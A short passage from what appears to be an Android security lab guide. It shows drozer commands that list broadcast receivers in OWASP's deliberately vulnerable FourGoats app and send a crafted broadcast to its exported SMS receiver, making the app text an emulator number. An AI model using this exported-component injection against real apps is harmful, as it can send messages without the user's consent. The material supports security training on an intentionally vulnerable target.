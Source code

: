 ![](androidassets/image-20240110165704512.png)

- Check Vulnerability in the [🧪 Practice Lab 7](#practice-lab-7) and exploit it with the following commands

```bash
run app.broadcast.info –-package org.owasp.goatdroid.fourgoats

# An activity can be run with
run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver --extra string phoneNumber 5554 --extra string message "Hi there"
```
